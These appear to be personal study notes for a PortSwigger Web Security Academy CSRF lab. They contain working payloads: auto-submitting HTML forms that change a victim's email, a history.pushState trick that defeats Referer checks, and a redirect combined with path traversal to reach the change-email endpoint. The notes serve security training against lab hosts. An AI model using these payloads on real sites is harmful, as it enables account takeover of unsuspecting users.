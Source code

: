This lab's change email function is vulnerable to CSRF. To solve the lab, perform a CSRF attack that changes the victim's email address. You should use the provided exploit server to host your attack.

You can log in to your own account using the following credentials: `wiener:peter`

---

temp
```html
<html>
    <head>
        <meta name="referrer" content="never"> 
    </head>
    <body>
        <h1>Hello world!</h1>
        <form action="https://0ab5007803da07dc80ad356300f6002f.web-security-academy.net/my-account/change-email" method = "post" id="csrf-form">
            <input type="hidden" name="email" value="test6@test.ca">
        </form>

        <script>document.getElementById("csrf-form").submit()</script>
    </body>
</html>
```

Analysis:

In order for a CSRF attack to be possible:
- A relevant action: change a users email
- Cookie-based session handling: session cookie
- No unpredictable request parameters: no csrf token

Testing Referer header for CSRF attacks:
1. Remove the Referer header
2. Check which portion of the referrer header is the application validating

Always check for if the App accepts the GET method. This is useful if the attacker can find a client side redirect. If you had a comment section, the App might redirect to the output of the comment for example.

The App only does not validate the schema in the referer:

![[IMG/Pasted image 20240924102827.png]]

```html
<html>
    <body>
        <script>history.pushState('','','/?0a9e0009033f679984f1dd4a00b70051.web-security-academy.net/my-account')</script>
        <h1>Hello World!</h1>
        <form action="https://0a9e0009033f679984f1dd4a00b70051.web-security-academy.net/my-account/change-email" method="post" id="csrf-form">
            <input type="hidden" name="email" value="test5@test.ca">
        </form>

        <script>document.getElementById("csrf-form").submit()</script>
    </body>
</html>
```

_History PushState: https://developer.mozilla.org/en-US/docs/Web/API/History/pushState_

---
I can play around with the redirect request and get it to try and take me to `my-account`

`https://0a7100b70485f16d8131585b003f00c0.web-security-academy.net/post/comment/confirmation?postId=my-account/`

It doesn't allow me, but i can access it buy using path traversal:

`https://0a7100b70485f16d8131585b003f00c0.web-security-academy.net/post/comment/confirmation?postId=../my-account/`

I could now add onto this command and tell it to change the email address:

`https://0a7100b70485f16d8131585b003f00c0.web-security-academy.net/post/comment/confirmation?postId=my-account/change-email?=email=test@gmail.com&submit=1`

Try `%40` instead of `@` in the email if you get any issues, and `%26` for the `&`.

```http
https://0a7100b70485f16d8131585b003f00c0.web-security-academy.net/post/comment/confirmation?postId=../my-account/change-email?email=test%40gmail.com%26submit=1
```

```html
<script>
window.location = "<URL>"
</script>
```

```html
<script>
window.location = "https://0a7100b70485f16d8131585b003f00c0.web-security-academy.net/post/comment/confirmation?postId=../my-account/change-email?email=test%40gmail.com%26submit=1"
</script>
```

The above does seem to work when i do it manually, so maybe the servers are playing up again. 

```http
https://0a7100b70485f16d8131585b003f00c0.web-security-academy.net/post/comment/confirmation?postId=../my-account/change-email?email=tester123%40gmail.com%26submit=1
```

![[IMG/Pasted image 20240924110839.png]]

